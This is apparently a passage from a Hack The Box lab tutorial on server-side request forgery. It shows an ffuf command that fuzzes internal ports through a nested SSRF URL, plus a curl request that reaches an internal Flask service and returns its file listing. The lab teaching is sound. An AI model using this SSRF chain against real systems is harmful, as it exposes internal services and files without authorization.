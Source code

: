 ```bash
ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: Errno[[:blank:]]111
________________________________________________

80                      [Status: 200, Size: 153, Words: 5, Lines: 6]
5000                    [Status: 200, Size: 123, Words: 3, Lines: 5]
```

The result will look like this,

```shell-session
GabrielQK@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 385
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:30:07 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/</h1><a>total 24K
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 .
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 ..
-rw-r--r-- 1 root root   84 Oct 19 16:32 index.html
-rw-r--r-- 1 root root 1.2K Oct 19 16:32 internal.py
-rw-r--r-- 1 root root  691 Oct 19 20:29 internal_local.py
-rwxr-xr-x 1 root root   69 Oct 19 16:32 start.sh
 </a></body></html>
```
